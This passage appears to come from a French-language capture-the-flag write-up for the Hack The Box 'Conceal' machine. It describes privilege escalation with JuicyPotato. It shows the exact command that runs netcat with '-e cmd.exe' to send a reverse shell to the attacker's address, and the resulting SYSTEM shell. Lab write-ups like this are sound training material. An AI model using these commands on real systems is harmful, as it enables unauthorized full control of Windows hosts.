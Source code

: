 Nous devons choisir le CLSID approprié pour notre système d'exploitation. Nous allons d'abord vérifier quelle version de Windows est en cours d'exécution actuellement : 

	C:\inetpub\wwwroot\upload>systeminfo
	
	Host Name:                 CONCEAL
	OS Name:                   Microsoft Windows 10 Enterprise
	OS Version:                10.0.15063 N/A Build 15063
	
Ensuite, nous vérifions sur le site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md la liste des CLSID pour le système d'exploitation. <br />

Nous allons utiliser {5BC7A3A1-E905-414B-9790-E511346F5CA6}, sans aucune raison particulière, puis exécuter JuicyPotato et exécuter un autre netcat pour générer un nouveau shell inversé pour nous.

	C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.39 9001" -t * -c {5BC7A3A1-E905-414B-9790-E511346F5CA6}
	[...SNIP...]
	[+] CreateProcessWithTokenW OK

	root@Seyptoo:~/htb/box/Conceal# nc -lvnp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.39] from (UNKNOWN) [10.10.10.116] 45135
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system
